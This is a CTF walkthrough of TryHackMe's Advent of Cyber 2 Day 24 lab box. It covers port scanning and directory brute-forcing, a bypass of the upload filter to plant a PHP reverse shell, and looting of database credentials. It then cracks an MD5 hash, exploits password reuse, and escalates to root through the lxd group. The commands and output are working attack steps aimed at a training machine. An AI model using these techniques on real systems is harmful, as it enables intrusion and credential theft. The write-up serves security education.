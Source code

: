 # TRYHACKME: ADVENTOFCYBER2 [DAY 24] SPECIAL - The Trial Before Christmas

```
It was the night before Christmas and The Best Festival Company could finally rest. All of the toys had been made and the company had recovered from attack after attack. Everything was in Santa's hands now, leaving the elves to do little more than wish him a safe journey ahead. Elf McEager sat at his terminal staring absentmindedly at light snow that had begun to fall. Just as he had drifted off to sleep Elf McEager was jolted to attention as a small parcel appeared just at the edge of his view. 

The present was wrapped in a deep blue velvet that appeared to shimmer in and out of the firelight, not unlike a blinking terminal prompt. Carefully, Elf McEager reached for the azure ribbon, untying it slowly so as to not damage it. The velvet slowly fell away, revealing a small NUC computer with a letter on top. Unfolding the letter, Elf McEager read it aloud:



"Elf McEager - your boundless effort to save Christmas this year has not gone unnoticed. I wanted to reward you with a special present, however, there's a catch. Elf McSkidy and I have seen your skills advance and we feel it would only be appropriate to give you a present after one last challenge. Inside this package, you'll have also found a computer. Plug this into the network and hack into it. Best of luck and Merry Christmas - Santa"



Without delay, Elf McEager connected the NUC appropriately and watched it whir to life. A small screen nearby the power button blinked and then displayed the IP address assigned to the device. Next to the IP, a small symbol appeared. McEager quietly wondered to himself what it could mean as he logged into his terminal, ready to start his final challenge. 
```

TOPICS: 

### QUESTIONS

Scan the machine What ports are open?

```
$ nmap -p 1-10000 -T4 10.10.207.247o
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-05 12:23 EST
Nmap scan report for 10.10.207.247
Host is up (0.10s latency).
Not shown: 9999 closed ports
PORT   STATE SERVICE
80/tcp open  http
65000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 118.99 seconds
```

What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step. 

```
$ curl -s 10.10.207.247:65000 | grep title
                <title>Light Cycle</title>
```

What is the name of the hidden php page?

```
$ gobuster dir -u http://10.10.207.247:65000/ -w /usr/share/wordlists/dirb/common.txt -x php

/uploads.php (Status: 200)
```

What is the name of the hidden directory where file uploads are saved?

```
$ gobuster dir -u http://10.10.207.247:65000/ -w /usr/share/wordlists/dirb/common.txt -x php

/grid (Status: 301)
```

Bypass the filters. Upload and execute a reverse shell. 

```
Using BURP, drop request to http://10.10.97.122:65000/assets/js/filter.js

Upload /usr/share/webshells/php/php-reverse-shell.php as shell.jpg.php

Setup NetCat to listen for connection.
```

What is the value of the web.txt flag?

```
$ cat /var/www/web.txt
THM{ENTER_THE_GRID}
```

Upgrade and stabilize your shell.

```
# Spawn a better-featured bash shell (prettier)
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Give access to term commands such as clear
export TERM=xterm

# Turns off our own terminal echo (to get tab autocompletes, arrow keys, ctrl-c to kill processes)
Ctrl + Z / stty raw -echo; fg
```

Review the configuration files for the webserver to find some useful loot in the form of credentials.  What credentials do you find?

```
ww-data@light-cycle:/var/www/TheGrid/includes$ cat dbauth.php 
<?php
        $dbaddr = "localhost";
        $dbuser = "tron";
        $dbpass = "IFightForTheUsers";
        $database = "tron";

        $dbh = new mysqli($dbaddr, $dbuser, $dbpass, $database);
        if($dbh->connect_error){
                die($dbh->connect_error);
        }
?>
```

Access the database and discover the encrypted credentials. What is the name of the database you find these in?

```
www-data@light-cycle:/var/www/TheGrid/includes$ mysql -utron -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| tron               |
+--------------------+
2 rows in set (0.00 sec)
```

In the modern age of password cracking, weak passwords can often be cracked without any cracking at all! Many websites now exist with the sole goal of hosting rainbow tables - tables of previously cracked passwords. This allows us more than often to simply input a password hash and nearly instantly receive the cracked password. Some various sites that I find myself (Dark) commonly using, especially throughout the case of CTFs, include the following:

- https://crackstation.net/ 

- https://md5decrypt.net/en/ 

- https://hashes.com/en/decrypt/hash 

Crack the password. What is it?

```
mysql> use tron;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_tron |
+----------------+
| users          |
+----------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

```
MD5 Hash -> @computer@
```

Use su to login to the newly discovered user by exploiting password reuse. 

```
www-data@light-cycle:/var/www/TheGrid/includes$ su flynn
Password: 
flynn@light-cycle:/var/www/TheGrid/includes$ cd 
flynn@light-cycle:~$ ls
user.txt
flynn@light-cycle:~$ cat user.txt 
THM{IDENTITY_DISC_RECOGNISED}
```

Check the user's groups. Which group can be leveraged to escalate privileges? 

```
flynn@light-cycle:~$ id
uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
```

Abuse this group to escalate privileges to root.

```
flynn@light-cycle:~$ lxc image list
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
flynn@light-cycle:~$ lxc init Alpine strongbad -c security.privileged=true
Creating strongbad

flynn@light-cycle:~$ lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true
Device trogdor added to strongbad

flynn@light-cycle:~$ lxc start strongbad

flynn@light-cycle:~$ lxc exec strongbad /bin/sh

~ # id
uid=0(root) gid=0(root)

What is the value of the root.txt flag?

```
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
THM{FLYNN_LIVES}



"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
```
